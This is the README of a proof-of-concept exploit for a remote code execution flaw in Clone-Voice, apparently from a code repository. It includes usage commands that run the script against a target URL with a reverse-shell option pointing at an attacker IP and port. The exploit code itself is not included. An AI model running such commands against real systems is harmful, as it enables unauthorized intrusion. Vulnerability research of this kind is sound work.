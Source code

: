 # Clone-Voice RCE Proof of Concept
This repository contains a Proof of Concept (PoC) script demonstrating a RCE vulnerability in Clone-Voice. **This tool is for educational and authorized testing purposes only.**

## Usage
### Reverse Shell
To attempt a reverse shell connection:
```
python3 clone_voice_rce_poc.py --url <target_url> --shell <your_ip> <your_port>
```
Example:
```
python3 clone_voice_rce_poc.py --url http://localhost:9000 --shell 192.168.1.100 4444
```
